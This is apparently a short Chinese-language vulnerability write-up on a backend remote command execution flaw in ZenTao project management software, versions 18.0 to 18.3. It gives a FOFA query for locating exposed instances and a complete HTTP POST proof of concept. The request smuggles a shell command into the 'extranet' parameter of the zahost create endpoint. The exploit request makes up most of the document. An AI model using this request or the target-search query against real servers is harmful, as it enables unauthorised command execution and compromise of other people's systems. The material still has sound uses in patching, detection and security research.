 ## 禅道 v18.0-v18.3 存在后台命令执行漏洞

禅道后台存在 RCE 漏洞，存在于 V18.0-18.3 之间，经过复现分析，发现漏洞来源于新增加的一个功能模块。

## fofa

```
app="易软天创-禅道系统"
```

## poc

```
POST /zentaopms/www/index.php?m=zahost&f=create HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64;x64;rv:109.0)Gecko/20100101 Firefox/111.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://xxx.xxx.xxx.xxx/zentaopms/www/index.php?m=zahost&f=create
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 134
Origin: http://xxx.xxx.xxx.xxx
Connection: close
Cookie: zentaosid=fwaf16g51w678678qw686;
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

vsoft=kvm&hostType=physical&name=penson&extranet=xxx.xxx.xxx.xxx%7Ccalc.exe&cpuCores=
2&memory=16&diskSize=16&desc=&uid=640be59da4851&type=z
```

![image-20240615214003637](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406152140793.png)
